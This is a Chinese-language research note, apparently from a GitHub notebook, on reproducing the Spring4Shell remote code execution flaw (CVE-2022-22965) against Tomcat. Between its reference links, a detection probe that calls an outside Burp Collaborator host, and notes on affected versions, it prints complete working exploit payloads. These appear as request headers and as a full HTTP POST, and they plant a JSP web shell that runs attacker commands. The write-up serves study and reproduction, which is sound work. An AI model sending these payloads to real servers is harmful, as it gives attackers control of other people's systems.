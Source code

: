 参考：
- [Spring 框架漏洞集合](https://misakikata.github.io/2020/04/Spring-%E6%A1%86%E6%9E%B6%E6%BC%8F%E6%B4%9E%E9%9B%86%E5%90%88/)
- [Spring 全家桶各类 RCE 漏洞浅析](https://paper.seebug.org/1422/#_3)
- [spring actuator restart logging.config rce](https://landgrey.me/blog/21/)
- https://github.com/LandGrey/SpringBootVulExploit
- [Spring Boot Fat Jar 写文件漏洞到稳定 RCE 的探索](https://landgrey.me/blog/22/)
- [CVE-2021-22060: Additional Log Injection in Spring Framework (follow-up to CVE-2021-22096)](https://tanzu.vmware.com/security/cve-2021-22060)
- https://github.com/projectdiscovery/nuclei-templates/blob/master/cves/2022/CVE-2022-22965.yaml


## Spring RCE
影响范围：
-  [2.5,2.5.6.SEC02)

### 无损检测
```
?class.module.classLoader.resources.context.configFile=http://j0kz86tl0wpygo1qh2lud49vvm1fp4.burpcollaborator.net/spring4shell&class.module.classLoader.resources.context.configFile.content.aaa=xxx
```
通过设置content，实现发起http请求的目的。

- https://xeldax.top/article/spring4shell_study

### FAQ

#### 为啥只能JDK9
> JDK1.8下测试，class bean下没有module bean，导致后续无法利用，如果是class.classLoader则会被黑名单拦截。

#### 为啥springboot不行
> JDK9 springboot下的，和springMVC的classloader不一样，是AppClassLoader，没有getResources()。springMVC是ParallelWebappClassLoader

## PoC
- https://github.com/craig/SpringCore0day/blob/main/exp.py
- https://github.com/lunasec-io/Spring4Shell-POC/blob/master/exploit.py


```
    headers = {"suffix":"%>//",
                "c1":"Runtime",
                "c2":"<%",
                "DNT":"1",
                "Content-Type":"application/x-www-form-urlencoded"

    }

class.module.classLoader.resources.context.parent.pipeline.first.pattern=%25%7Bc2%7Di%20if(%22j%22.equals(request.getParameter(%22pwd%22)))%7B%20java.io.InputStream%20in%20%3D%20%25%7Bc1%7Di.getRuntime().exec(request.getParameter(%22cmd%22)).getInputStream()%3B%20int%20a%20%3D%20-1%3B%20byte%5B%5D%20b%20%3D%20new%20byte%5B2048%5D%3B%20while((a%3Din.read(b))!%3D-1)%7B%20out.println(new%20String(b))%3B%20%7D%20%7D%20%25%7Bsuffix%7Di&class.module.classLoader.resources.context.parent.pipeline.first.suffix=.jsp&class.module.classLoader.resources.context.parent.pipeline.first.directory=webapps/ROOT&class.module.classLoader.resources.context.parent.pipeline.first.prefix=tomcatwar&class.module.classLoader.resources.context.parent.pipeline.first.fileDateFormat=
```

准备复现，
刚从tomcat官网下了个tomcat-8.5.78: https://dlcdn.apache.org/tomcat/tomcat-8/v8.5.78/bin/apache-tomcat-8.5.78-windows-x64.zip

结果失败了，
![image](https://user-images.githubusercontent.com/30398606/161372147-431252a3-0a8e-472d-8ef9-1212d0781f1a.png)

```
Invalid property 'class.module.classLoader.resources' of bean class [java.lang.Module]: Could not instantiate property type [org.apache.catalina.WebResourceRoot] to auto-grow nested property path; nested exception is org.springframework.beans.BeanInstantiationException: Failed to instantiate [org.apache.catalina.WebResourceRoot]: Specified class is an interface
```

很快啊，原来是：
> Effectively disable the WebappClassLoaderBase.getResources() method as it is not used and if something accidently exposes the class loader this method can be used to gain access to Tomcat internals.

- https://tomcat.apache.org/tomcat-8.5-doc/changelog.html

所以目前的payload对于tomcat作为web容器的利用方式下，影响范围是：tomcat < 8.5.78

那就下载8.5.77:
- https://archive.apache.org/dist/tomcat/tomcat-8/v8.5.77/bin/apache-tomcat-8.5.77-windows-x64.zip

tomcat换了之后依然没有成功。
![image](https://user-images.githubusercontent.com/30398606/161372361-0c85d1ca-1a4a-46b1-862a-7c7c19156635.png)
可能因为我是直接在windows上双击startup.bat导致日志直接输出到控制台，而没有机会写入到文件？
原来是使用这个：https://github.com/craig/SpringCore0day/blob/main/exp.py
导致有个引号的bug吧。
![image](https://user-images.githubusercontent.com/30398606/161375232-2b243cef-2e90-415a-9320-b8f894b3ffef.png)


使用这个成功了：
https://github.com/lunasec-io/Spring4Shell-POC
```
POST /java-sec-code-1.0.0/login3 HTTP/1.1
Host: 192.168.183.129:8088
User-Agent: python-requests/2.20.0
Accept-Encoding: gzip, deflate
Accept: */*
Connection: keep-alive
Content-Type: application/x-www-form-urlencoded
Content-Length: 698

class.module.classLoader.resources.context.parent.pipeline.first.pattern=%25%7Bprefix%7Di%20java.io.InputStream%20in%20%3D%20%25%7Bc%7Di.getRuntime().exec(request.getParameter(%22cmd%22)).getInputStream()%3B%20int%20a%20%3D%20-1%3B%20byte%5B%5D%20b%20%3D%20new%20byte%5B2048%5D%3B%20while((a%3Din.read(b))!%3D-1)%7B%20out.println(new%20String(b))%3B%20%7D%20%25%7Bsuffix%7Di&class.module.classLoader.resources.context.parent.pipeline.first.suffix=.jsp&class.module.classLoader.resources.context.parent.pipeline.first.directory=webapps/ROOT&class.module.classLoader.resources.context.parent.pipeline.first.prefix=shell&class.module.classLoader.resources.context.parent.pipeline.first.fileDateFormat=
```

![image](https://user-images.githubusercontent.com/30398606/161375660-ac8e4630-18e8-4046-ae9c-338b7a2110a8.png)


对应代码：
```java
    @RequestMapping("/login2")
    public void login2(@RequestBody User user) {
        System.out.println(user.getUsername());
        System.out.println(user.getPassword());
    }


    @RequestMapping("/login3")
    public void login3(User user) {
        System.out.println(user.getUsername());
        System.out.println(user.getPassword());
    }
```
其中login2这个endpoint要求请求的Content-Type是json类型。

注意在tomcat的conf/server.xml中必须要有：AccessLogValve这个Valve。
### 无损检测

![image](https://user-images.githubusercontent.com/30398606/169263864-c581fd76-2fc5-453e-a721-c971b8250cbd.png)
```
/java-sec-code-1.0.0/login3?class.module.classLoader.resources.context.configFile=http://j0kz86tl0wpygo1qh2lud49vvm1fp4.burpcollaborator.net/spring4shell&class.module.classLoader.resources.context.configFile.content.aaa=xxx&username=test
```


### Ref
- [CVE-2010-1622: Spring Framework execution of arbitrary code](https://seclists.org/fulldisclosure/2010/Jun/456)
- [Spring Framework - Arbitrary code Execution](https://www.exploit-db.com/exploits/13918)
- [Spring Core RCE 0day｜文末报告附件](https://mp.weixin.qq.com/s/P-NEJzUUjIyemkSe_RbicQ)
- https://github.com/spring-projects/spring-framework/commit/7f7fb58dd0dae86d22268a4b59ac7c72a6c22529
